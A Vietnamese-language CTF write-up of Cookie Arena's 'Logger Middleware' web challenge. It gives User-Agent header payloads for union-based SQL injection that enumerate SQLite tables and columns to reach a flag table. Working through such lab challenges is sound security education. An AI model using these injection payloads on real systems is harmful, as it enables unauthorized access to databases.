 ```yaml
---
title: Logger Middleware Writeup - Cookie Arena
date: "2023-08-01 16:22:15"
categories:
  - CTF Writeup
  - Cookie Arena
tags:
  - middleware
  - SQL Injection
published: true
---
```


Link Challenge: [https://battle.cookiearena.org/challenges/web/logger-middleware](https://battle.cookiearena.org/challenges/web/logger-middleware)

![access log page](/posts/logger-middleware-cookiearena/access-log.PNG)

Tương tự với [Baby Logger Middleware](/posts/baby-logger-middleware-writeup-cookie-arena/) nhưng khó hơn 1 chút xíu, vẫn lại là sql injection.

![error query](/posts/logger-middleware-cookiearena/error-sql.png)

Đã biết số lượng columns trong bảng logger, tiến hành test Union-Based SQLi

![test union-based sqli](/posts/logger-middleware-cookiearena/test-union-based-sqli.png)
_Union-Based SQLi_

Google 1 chút về sqlite, cũng nắm sơ qua về nó rồi thì bắt tay vào viết payload thôi.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from sqlite_master-- -
```

![List Tables](/posts/logger-middleware-cookiearena/tables.png)
_Liệt kê tables trong sqlite_master_

Yep, chính nó, bảng **flag**.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from pragma_table_info('flag')-- -
```

![List Columns](/posts/logger-middleware-cookiearena/columns.png)
_Liệt kê columns trong bảng **flag**_

Cột **secr3t_flag** chắc chắn chứa flag rồi. Let's catch it!

![secr3t_flag](/posts/logger-middleware-cookiearena/flag.png)
_secr3t_flag_
